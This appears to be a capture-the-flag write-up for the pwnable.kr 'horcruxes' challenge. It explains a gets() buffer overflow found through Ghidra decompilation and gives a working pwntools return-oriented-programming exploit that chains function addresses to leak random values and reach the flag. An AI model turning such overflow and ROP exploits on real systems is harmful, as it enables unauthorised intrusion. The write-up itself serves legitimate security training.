








Play this challenge at pwnable.kr: https://pwnable.kr/play.php


# Instructions

>Voldemort concealed his splitted soul inside 7 horcruxes.
>Find all horcruxes, and ROP it!
>author: jiwon choi
>
>ssh horcruxes@pwnable.kr -p2222 (pw:guest)

# Provided Files

## readme
```
connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn privilege.
rop it to read the flag.
```

# Walkthrough

## Lay of the land

Upon SSH-ing to the challenge and running the binary, it looks like we are able to provide some input to the program. 



There isn't much else to go by - no source code. Lets disassemble and decompile the binary in Ghidra. 



We see in the decomipled C code that the program runs 1. `hint()` -> 2. `init_ABCDEFG()` -> 3. `ropme()`.

#### Decompiled hint()



`hint()` simply prints out some text. Uninteresting. 

#### Decompiled initABCDEFG()



`init_ABCDEFG()` is assigning random values to the global variables `a`, `b`, `c`, `d`, `e`, `f`, `g`. 

#### Decompiled ropme()



`ropme()` is doing some comparisons agains the random variables `a-g` and running the functions `A()` - `G()`. We cant run them normally because `a-g` are random and we dont know their values. In the final `else()` branch, the program uses `gets()` (!! vulnerable to buffer overflow) to take the final "EXP" value and compares it to `sum` which is a sum of the random vars `a-g`. If the provided "EXP" is correct ( = `sum`), then we get the flag.

#### Decompiled A() - G()



Looking at decompiled `A()` - `G()`, we find that the function prints out the random value of `a-g` respectively. 

## Approach to pwn

Using the vulnerable `gets()` in `ropme()`, we should be able to overwrite the stack to control **EIP** to run `A()` - `G()` to get the values of `a-g`, then re-run `ropme()` to provide the correct `sum` to get the flag. 

## Constructing the payload

To start constructing the payload, we need the offset to control **EIP**. Lets create a cyclic string and use gdb to test offset.

```Bash      
┌──(kali㉿kali)-[~/pwnable.kr/horcruxes]
└─$ python3         
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import cyclic
>>> cyclic(200)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```



So we now know that we can overwrite **EIP** by placing our bytes in place of "XXXX" in the following payload:

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfXXXX
```

Also, by consecutively placing memory locations past "XXXX", we control the next, and the next **EIP**. 

Very simplified exlanation: When program enters a function, it stores the **EIP** (i.e. pointer to memory where execution shall recommence after the function finishes) on the stack. Like a bookmark. When a function finishes, the bookmarked **EIP** is popped off the stack and back into **EIP** register, which tells the computer to go back to the bookmarked "next" instruction that was stored before the function was called. This happens recursively when functions are called within functions within functions, meaning "bookmarks" are stored next to eachother on the stack (given no inputs are parsed to `A()` - `G()`). 

Here's a prompt for your favourite LLM to learn more about this: `how does a program know where to recommence execution after a function is finished in assembly? EIP stored on stack`.

So now, we just need to find the addresses of `A()` - `G()`  and `ropme()` to put into our payload. You can do this by looking at your Ghidra disassembly, using gdb to disassemble the functions etc..

## Solution

```Python
from pwn import *

a = p32(0x0804129d)
b = p32(0x080412cf)
c = p32(0x08041301)
d = p32(0x08041333)
e = p32(0x08041365)
f = p32(0x08041397)
g = p32(0x080413c9)
ropme_addr = p32(0x0804150b)
sh = ssh('asm', 'pwnable.kr', password='guest', port=2222)
p = sh.remote('0', 9032)

payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabf"
payload += a+b+c+d+e+f+g+ropme_addr
print(p.recvuntil(b"Select Menu:"))
p.sendline(payload)
print(f'sent: {payload}')
p.interactive()
```

By running the above, `A()` - `G()` will be run, enabling us to see the values `a-g`. We can simply calculate the sum (eg using Python in terminal) and provide it to the program. 



